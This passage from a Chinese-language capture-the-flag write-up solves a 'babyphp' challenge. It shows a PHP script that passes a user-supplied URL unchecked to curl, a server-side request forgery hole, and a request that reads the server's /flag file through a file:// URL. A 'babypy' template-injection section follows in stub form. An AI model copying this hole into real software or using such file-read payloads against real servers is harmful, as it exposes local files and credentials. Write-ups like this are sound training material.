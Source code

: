 再把文件内容传过来就行

![](https://i.loli.net/2021/10/31/LEU58H9CvOmfTkn.png)

可以在linux上用eog命令来读，也可以用vps传回本机看

![](https://i.loli.net/2021/10/31/n4ZBAsLYWwDjF8J.png)

## babyphp

读robots.txt

```
User-agent: *
Disallow: /noobcurl.php
```

访问之，考的是ssrf，并且提示了flag在根目录

```php
<?php
function ssrf_me($url){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        curl_close($ch);
        echo $output;
}

if(isset($_GET['url'])){
    ssrf_me($_GET['url']);
}
else{
    highlight_file(__FILE__);
        echo "<!-- 有没有一种可能，flag在根目录 -->";
}
```

用file://协议读就行

```
http://47.100.242.70:4659/noobcurl.php?url=file:///flag
```

![](https://s2.loli.net/2022/03/09/egBnf56JXqhRt9v.png)





## babypy

ssti模版注入
调的是`os._wrap_close`
